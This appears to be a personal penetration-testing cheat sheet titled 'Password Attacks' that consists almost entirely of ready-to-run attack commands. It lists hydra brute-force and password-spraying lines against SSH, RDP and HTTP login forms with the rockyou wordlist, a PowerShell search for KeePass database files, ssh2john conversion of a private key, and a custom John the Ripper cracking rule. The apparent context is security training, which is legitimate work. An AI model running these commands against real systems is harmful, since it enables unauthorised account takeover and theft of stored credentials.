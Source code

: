 # PASSWORD ATTACKS
#ssh 
```
sudo hydra -l [user] -P /usr/share/wordlists/rockyou.txt -s [port] ssh://[ip]

sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "[password]" rdp://[ip]
```

#http_post
```
sudo hydra -l [user] -P /usr/share/wordlists/rockyou.txt [ip] http-post-form "/index.php:fm_usr=[user]&fm_pwd=^PASS^:Login failed. Invalid"
```

#http_get
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s [port] -f [ip] http-get -V
```

#identify_hash
```
identifier
hashid
```

#password_search
[[PRIVILEGE ESCALATION/OS/WINDOWS/ENUM|ENUM]]
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

#ssh_key
```
ssh2john id_rsa > ssh.hash

```

#jtr_rules
```
add name and append to /etc/john/john.conf

cat ssh.rule
[List.Rules:sshRules]
c $1 $3 $7 $!

sudo sh -c 'cat /home/kali/passwordattacks/ssh.rule >> /etc/john/john.conf'

john --wordlist=ssh.passwords --rules=sshRules ssh.hash
```